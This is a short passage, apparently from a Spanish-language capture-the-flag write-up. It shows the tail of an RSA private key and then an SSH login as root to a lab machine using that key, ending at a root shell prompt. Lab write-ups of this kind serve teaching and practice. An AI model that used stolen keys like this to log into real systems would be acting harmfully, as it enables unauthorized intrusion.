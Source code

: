 ```bash
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```
Y procedemos a Conectarmos por SSH a la Maquina Victima:
```bash
# "ssh -i id_rsa root@10.10.10.220      "                                                                                                                                                                     130 ⨯
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 18 May 2021 09:29:05 AM UTC

  System load:                      0.01
  Usage of /:                       64.6% of 17.59GB
  Memory usage:                     72%
  Swap usage:                       0%
  Processes:                        347
  Users logged in:                  0
  IPv4 address for br-bcb73b090b3f: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.220
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:c391

  => There are 18 zombie processes.

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

186 updates can be installed immediately.
89 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 11 14:28:18 2021
"root@ready:~# "
```

